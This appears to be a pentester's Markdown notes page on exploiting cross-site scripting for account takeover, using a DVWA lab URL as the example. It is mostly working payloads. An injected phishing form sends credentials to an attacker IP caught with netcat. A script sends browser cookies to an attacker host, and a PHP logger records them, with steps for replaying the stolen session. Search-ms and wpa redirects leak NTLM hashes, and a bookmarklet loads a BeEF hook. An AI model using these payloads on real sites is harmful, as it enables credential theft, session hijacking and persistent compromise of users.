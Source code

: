 # Manual

TODO: Demonstrate how XSS can be leveraged by an attacker.

### Phishing via HTML Injection (Account Takeover)

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

```html
http://dvwa.local/dvwa/vulnerabilities/xss_r/?name=<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br> Password:<br><input type="password" name="password"></br> <br><input type="submit" value="Logon"></br>
```

```
$ sudo nc -lnvp 80
```

### Phishing via JavaScript (Account Takeover)

```js
<script type="text/javascript">
document.location='http[s]//<IP>/cookies.php?cookie='+document.cookie;
</script>
```

```php
<?php
header('Location: http://dvwa.local/dvwa/');

$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

Open in debug console in any web browser. You can use an extension **Cookie Editor** if you prefer.

```
document.cookie = "<cookie_session>"
```

### Phishing via SMB Relay

TODO: refer to the link to use responder to grab ntlm hashes on a windows target

```javascript
<script>window.location.href = "search-ms://query=<anything>&subquery=\\\\<attacker_IP>\\<anything>.search-ms"</script>

<script>window.location.href = "search-ms://query=<anything>&crumb=location:\\\\<attacker_IP>\\<anything>"</script>

<script>window.location.href = "wpa:////<attacker_IP>/<anything>"</script>
```

TODO: Convince the user to click a link or button to add a bookmark using bookmarklet via XSS for persistence

```
javascript: (function () { var url = 'http://0.0.0.0:3000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();
```

---
## References

- [[SMB Relay Phishing|Responder: Phishing Scenario]]

- [Computer Security Student (CSS): Reflected Cross Site Scripting Injection #1, Man-In-The-Middle Attack](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson13/index.html)

- [Abricto Security: XSS to NTLM Leak using MSQuery](https://abrictosecurity.com/from-cross-site-scripting-to-ntlm-leak-using-msquery/)

- [0xdf: Getting Creds via NTLMv2](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)